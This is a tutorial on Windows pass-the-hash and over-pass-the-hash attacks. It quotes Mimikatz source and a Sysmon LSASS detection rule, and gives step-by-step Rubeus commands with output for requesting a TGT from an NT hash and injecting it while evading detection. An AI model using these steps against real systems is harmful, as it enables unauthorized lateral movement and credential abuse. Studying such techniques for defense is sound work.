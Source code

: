 ## Introduction

In the realm of cybersecurity, **pass-the-hash** attacks have become a potent weapon for attackers. By leveraging password hashes, adversaries can bypass the need for plaintext passwords and gain unauthorized access to systems. In this tutorial, we’ll explore the mechanics of pass-the-hash attacks, from understanding hash structures to practical exploitation techniques. Buckle up as we delve into the dark corners of authentication security.

> The **Pass-The-Hash** technique is an essential foundation of lateral movement on Windows. It allows you to assign the rights associated with a user based solely on their NT hash. However, this technique, which is commonly used by **Mimikatz**, is easily detectable. Besides, it requires requesting Local Administrator rights to write to the **LSASS.exe** process.

In this article, we will briefly see how Pass-The-Hash works, and then analyze how Mimikatz's PTH (Pass-The-Hash) module works. Finally, we will see a technique offering better OPSec (Operation Security) and not requiring Local Administrator rights.

* * *

## Pass The Hash - Overview

PTH is a technique exploiting the operation of the NTLMv1/v2 protocols to authenticate to a remote resource without using the user's plain text password. First, let's see the basic operation of the NTLM protocol:

- First, the client will request a "negotiation" (type 1 message) to agree with the server on the supported functions.
- The server sends back a "challenge" (type 2 message), which is a random value generated on each request.
- The client returns the "response" of the challenge (type 3 message). This is quite simply the encryption of the challenge using the NT hash as the encryption key.

This is when the server will verify the challenge. Either by reproducing it with the client's NT hash in the SAM database if it is a local account or by sending the challenge back to the domain controller if it is a domain account.

What must be understood here is that the user's plain text password never comes into account. Only its hash is useful! It is therefore easy for an attacker who only has the hash of an account to authenticate with domain resources. However, this technique has limits depending on the User Access Control (UAC) policies configured in the system.

* * *

### Mimikatz and PTH

[Mimikatz](https://github.com/gentilkiwi/mimikatz) it's now well known to extract plaintexts passwords, hash, PIN code, and Kerberos tickets from memory. Mimikatz can also perform pass-the-hash, pass-the-ticket, or build Golden tickets.

Several tools propose the use of PTH during authentication but the operations differ. Even if NTLM does not take into account the plain text password, Windows is not designed to let the user directly enter his NT hash as an authentication method, it is, therefore necessary to adapt to allow this operation to be done.

This is what **impacket** does for example. This Python library provides very low-level access to Windows packages. This allows in particular, to rewrite challenge/response packets directly based on the hash given as input. Thus, the re-implementation of the SMB stack makes it possible to dispense with the use of the plain text password and to pass the hash directly to the targeted machine. Mimikatz and its `sekurlsa::pth` command took another approach rewriting hashes in memory. Here is the piece of code used by this tool:

```html
if(kull_m_process_create(KULL_M_PROCESS_CREATE_LOGON, szRun, CREATE_SUSPENDED, NULL, LOGON_NETCREDENTIALS_ONLY, szUser, szDomain, L"", &processInfos, FALSE))
{
    kprintf(L" | PID %u\n | TID %u\n",processInfos.dwProcessId, processInfos.dwThreadId);
    if(OpenProcessToken(processInfos.hProcess, TOKEN_READ | (isImpersonate ? TOKEN_DUPLICATE : 0), &hToken))
    {
           if(GetTokenInformation(hToken, TokenStatistics, &tokenStats, sizeof(tokenStats), &dwNeededSize))
           {
               kuhl_m_sekurlsa_pth_luid(&data);
```

We quickly understand that Mimikatz will create a new process then write in the "Logon Session" associated with the token via the `kuhl_m_sekurlsa_pth_luid` function. This implies two things:

- Mimikatz will write to the `LSASS.exe` process, so you must be a local administrator of the machine.
- An OpenProcess will be performed on `LSASS.exe`, the access rights requested by Mimikatz are very specific and will raise an alert if detection rules are properly configured.

```html
<Rule groupRelation="and">
    <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\lsass.exe</TargetImage>
    <GrantedAccess>0x1FFFFF</GrantedAccess>
</Rule>
```

* * *

### Over-Pass-The-Hash and Rubeus

As we have seen, the Mimikatz technique has limitations as well as poor OPSec. Let's see what solutions can bring us to an equivalent result while avoiding the limitations of Mimikatz.

[Rubeus](https://github.com/GhostPack/Rubeus) is a `C#` toolset for raw Kerberos interaction and abuses. This project offers a multitude of features such as kerberoast, asreproast, s4u, and much more. Here, we will use several of these features to perform an OPTH (Over-Pass-The-Hash).

The OPTH is a revisit of the classic PTH where we use the obtained NT hash to request a ticket of type TGT to the domain controller to then inject it into a process. Thus, we are going to free ourselves from the NTLM protocol which is now less used in favor of Kerberos and we will also free ourselves from the rewrite of `LSASS.exe`. This makes a better OPSec possible and does not require us to be Local Administrator.

Let us now see in practice the realization of this technique with Rubeus. First, we will request a TGT ticket from the domain controller using the `asktgt` command:

```html
C:\Rubeus>Rubeus.exe asktgt /user:<redacted> /rc4:<redacted>

[*] Action: Ask TGT

[*] Using rc4_hmac hash: <redacted>
[*] Building AS-REQ (w/ preauth) for: 'domain\<redacted>'
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIFXDCCB[…]WMuaW8=

[*] Action: Describe Ticket

  UserName      :  <redacted>
  UserRealm     :  <redacted>
  ServiceName   :  krbtgt/<redacted>
  ServiceRealm  :  <redacted>
  StartTime     :  24/05/2020 16:18:45
  EndTime       :  25/05/2020 02:18:45
  RenewTill     :  04/06/2020 16:18:45
  Flags         :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType       :  rc4_hmac
  Base64(key)   :  k++fpN2g7xZn8bjbdD+xQg==
```

Our ticket is simply the string converted into base64. We must now remove the line breaks to have the base64 in the form of a character string. Another important detail, a "Logon Session" can only accommodate one TGT ticket. If we injected our TGT ticket into an existing "Logon Session", we will encounter some problems. To remedy this, we can use the `createnetonly` feature which allows us to create a hidden process with `SECURITY_LOGON_TYPE 9`. This technique will allow us to inject our ticket into complete security and serenity.

```html
C:\Rubeus>Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe"

 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Create Process (/netonly)

[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 9936
[+] LUID            : 0x4a0717f
```

Obviously, this command generates an event id type 1 "Process Created". It is now possible to pass our ticket in this "Logon Session" via the Rubeus `ptt` command:

```html
C:\Rubeus>Rubeus.exe ptt /ticket:<ticket en base64> /luid:0x4a0717f

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

At this point, we can check the presence of our ticket in this process using the Rubeus `triage` command:

```html
----------------------------------------------------------------------------------
| LUID      | UserName               | Service              | EndTime            |
----------------------------------------------------------------------------------
| 0x4a0717f | redacted @ redacted    | krbtgt/redacted      | 25/05/2020 02:18:45|
----------------------------------------------------------------------------------
```

Perfect! This process is now linked to a "Logon Session" containing the TGT ticket requested using the user's NT hash. If we migrate in this process via the `inject` command from **Cobalt Strike** or `migrate` from **Meterpreter**, we will have the rights associated with the spoofed user. Note that we have not opened the `LSASS.exe` process since the Rubeus PTT is done as follows:

```html
if(arguments.ContainsKey("/ticket"))
{
    string kirbi64 = arguments["/ticket"];
    if(Helpers.IsBase64String(kirbi64))
    {
        byte[] kirbiBytes = Convert.FromBase64String(kirbi64);
        LSA.ImportTicket(kirbiBytes, luid);
```

The `ImportTicket` function is based on the `LsaCallAuthenticationPackage` function:

```html
var inputBufferSize = Marshal.SizeOf(typeof(Interop.KERB_SUBMIT_TKT_REQUEST)) + ticket.Length;
inputBuffer = Marshal.AllocHGlobal(inputBufferSize);
Marshal.StructureToPtr(request, inputBuffer, false);
Marshal.Copy(ticket, 0, new IntPtr(inputBuffer.ToInt64() + request.KerbCredOffset), ticket.Length);
ntstatus = Interop.LsaCallAuthenticationPackage(LsaHandle, AuthenticationPackage, inputBuffer, inputBufferSize, out ProtocolReturnBuffer, out ReturnBufferLength, out ProtocalStatus);
```

Thus, no capricious "patch" was made on LSASS.exe which allows us to keep better OPSec.

* * *

## Conclusion

In summary, pass-the-hash attacks pose a significant threat to system security. As defenders, it’s crucial to stay informed about these techniques and implement robust measures to prevent them. Remember that protecting your organization’s credentials is not just about passwords; it’s about safeguarding the very keys to your digital kingdom.